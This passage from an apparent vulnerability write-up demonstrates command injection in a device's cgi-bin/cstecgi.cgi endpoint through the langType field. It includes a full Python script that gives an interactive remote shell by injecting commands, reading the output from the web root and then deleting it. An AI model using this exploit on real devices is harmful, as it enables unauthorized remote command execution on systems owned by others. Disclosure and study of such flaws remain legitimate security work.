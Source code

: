 ![](/assets/images/59eecc595413526244937fdfb958c75a)

Now, Let's go to `Burp Suite` and manipulate the request and show a PoC for the vulnerability:

![](/assets/images/1c805c850e1a0b6a2b7599dc527e2da4)

We can see our request and response is successfully and Basically we executed a command to print out the `CVE` number and store it inside `poc.txt` in the `/tmp` directory and if we navigate to the directory we can see clearly our file there and the `CVE` number:

![](/assets/images/25fd01fd7933de695422940ca8f0af6a)

But, We can see that it ends with `.js`, So we can print a new line or separate it with `;` which separate commands in shell:

![](/assets/images/a824909cbe195a3ad06a8a38a0aa2078)

And here is it working well. Now, We can automate this process using python:

```
import requests
import sys

print(f"[*] Target: {sys.argv[1]} \n")
url = f"http://{sys.argv[1]}/cgi-bin/cstecgi.cgi"
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest"}

while True:
    command = input(f"{sys.argv[1]}@shell# ")
    json = {"langFlag": "1", "langType": f";{command} > /web_cste/res.txt;",
            "topicurl": "setting/setLanguageCfg"}
    req1 = requests.post(url, headers=headers, json=json)
    if req1.status_code == 200:
        print(f"[+] Command: {command}\n")
        req2 = requests.get(f"http://{sys.argv[1]}/res.txt", headers=headers)
        print("[+] Results:")
        print(req2.text)
        json = {"langFlag": "1", "langType": f";rm -rf /web_cste/res.txt;",
                "topicurl": "setting/setLanguageCfg"}
        requests.post(url, headers=headers, json=json)
    else:
        print("[-] Error Command failed")
```

So, Basically the code will take a target as a first argument and then the command from the user after that will send the command and save the results in `res.txt` file in the web root directory so it can be access in public, After that request the `res.txt` file and print out it's output which also is the command out put then it will delete it.

![](/assets/images/79f636ea24ff36246b34fe8bf58cc0c9)
